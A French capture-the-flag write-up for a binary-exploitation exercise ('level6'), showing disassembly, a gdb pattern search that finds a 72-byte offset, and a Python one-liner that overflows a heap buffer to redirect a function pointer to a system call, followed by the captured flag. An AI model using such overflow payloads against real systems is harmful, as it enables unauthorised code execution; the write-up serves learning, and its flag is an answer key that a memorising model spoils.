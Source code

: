 ## Démarche

- Le programme `./level6` prend au moins un paramètre
    > Segmentation fault (core dumped)
    `/level6 1`
    > Nope

- `objdump -d level6` :
  ```
    08048454 <n>:
        8048454:	55                   	push   %ebp
        8048455:	89 e5                	mov    %esp,%ebp
        8048457:	83 ec 18             	sub    $0x18,%esp
        804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
        8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
        8048466:	c9                   	leave
        8048467:	c3                   	ret

    08048468 <m>:
        8048468:	55                   	push   %ebp
        8048469:	89 e5                	mov    %esp,%ebp
        804846b:	83 ec 18             	sub    $0x18,%esp
        804846e:	c7 04 24 d1 85 04 08 	movl   $0x80485d1,(%esp)
        8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
        804847a:	c9                   	leave
        804847b:	c3                   	ret
    
    0804847c <main>:
        804847c:	55                   	push   %ebp
        804847d:	89 e5                	mov    %esp,%ebp
        804847f:	83 e4 f0             	and    $0xfffffff0,%esp
        8048482:	83 ec 20             	sub    $0x20,%esp
        8048485:	c7 04 24 40 00 00 00 	movl   $0x40,(%esp)
        804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
        8048491:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        8048495:	c7 04 24 04 00 00 00 	movl   $0x4,(%esp)
        804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
        80484a1:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484a5:	ba 68 84 04 08       	mov    $0x8048468,%edx
        80484aa:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484ae:	89 10                	mov    %edx,(%eax)
        80484b0:	8b 45 0c             	mov    0xc(%ebp),%eax
        80484b3:	83 c0 04             	add    $0x4,%eax
        80484b6:	8b 00                	mov    (%eax),%eax
        80484b8:	89 c2                	mov    %eax,%edx
        80484ba:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484be:	89 54 24 04          	mov    %edx,0x4(%esp)
        80484c2:	89 04 24             	mov    %eax,(%esp)
        80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
        80484ca:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484ce:	8b 00                	mov    (%eax),%eax
        80484d0:	ff d0                	call   *%eax
        80484d2:	c9                   	leave
        80484d3:	c3                   	ret
  ```
    Le `main` prend un paramètre et le compare, en fonction du résultat, il appelle la fonction `m` qui *puts* "Nope\n" ou la fonction `n` qui fait un appel système.

- Si on jump à l'adresse de `n` manuellement depuis gdb, on peut constater que la fonction `n` appelle un *bash* et *cat* le fichier *.pass* :
    ```
    [New process 4645]
    process 4645 is executing new program: /bin/dash
    process 4646 is executing new program: /bin/cat
    /bin/cat: /home/user/level7/.pass: Permission denied
    ```


- Avec peda dans gdb, on récupère la taille allouée pour la copie du paramètre :

    `pattern search`
    ```
    Registers contain pattern buffer:
    EIP+0 found at offset: 72
    EAX+0 found at offset: 72
    No register points to pattern buffer
    Pattern buffer found at:
    0x0804a008 : offset    0 - size  100 ([heap])
    0xbffff87d : offset    0 - size  100 ($sp + 0x201 [128 dwords])
    References to pattern buffer found at:
    0xbffff670 : 0x0804a008 ($sp + -0xc [-3 dwords])
    0xbffff680 : 0x0804a008 ($sp + 0x4 [1 dwords])
    0xbffff69c : 0x0804a008 ($sp + 0x20 [8 dwords])
    0xbffff668 : 0xbffff87d ($sp + -0x14 [-5 dwords])
    0xbffff684 : 0xbffff87d ($sp + 0x8 [2 dwords])
    0xbffff748 : 0xbffff87d ($sp + 0xcc [51 dwords])
    ```

- On passe alors en paramètre une chaine de la taille de l'offset, suivie de l'adresse de la fonction `n`
- `./level6 $(python -c 'print("A"*72+"\x54\x84\x04\x08")')`
> f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d


<br>


---

## Ressources